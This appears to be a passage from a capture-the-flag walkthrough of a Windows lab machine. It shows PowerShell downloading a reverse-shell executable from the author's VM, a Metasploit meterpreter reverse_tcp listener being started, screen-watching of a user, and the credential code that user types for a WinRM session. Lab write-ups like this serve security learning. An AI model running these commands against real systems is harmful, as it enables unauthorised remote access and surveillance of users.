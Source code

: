 From my Remote Powershell I download the payload to C:\Utils

```
invoke-webrequest -uri "http://<IP Address of my VM>:9090/reverse.exe" -Outfile "C:\Utils\reverse.exe"
```

There are a couple different methods you can use to download files over HTTP, such as.

* **wget**
* **invoke-webrequest**
* **curl**

![](<../../.gitbook/assets/image (19) (1) (1).png>)

After the reverse.exe has been saved to C:\Utils, I need to setup my meterpreter listener.

```
msfconsole -q -x "use multi/handler; set payload windows/x64/meterpreter/reverse_tcp; set lhost 10.14.28; set lport 9000; exploit"
```

Once connected, I use 'screenshare' to save a html file where I can view the desktop of the current user.

![](<../../.gitbook/assets/image (15) (1) (1) (1).png>)

When viewing the screen, user1 is attempting to Connect to the ATSSERVER via WINRM. He uses.

```
$username = "acute\user2"
$password = "xxxx."
$secureStringPwd = ConvertTo-SecureString $password -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential ($username, $secureStringPwd)
Enter-PSSession -Computername ATSSERVER -configurationname dc_manage -Credential $cred
```

This failes with a number of errors.
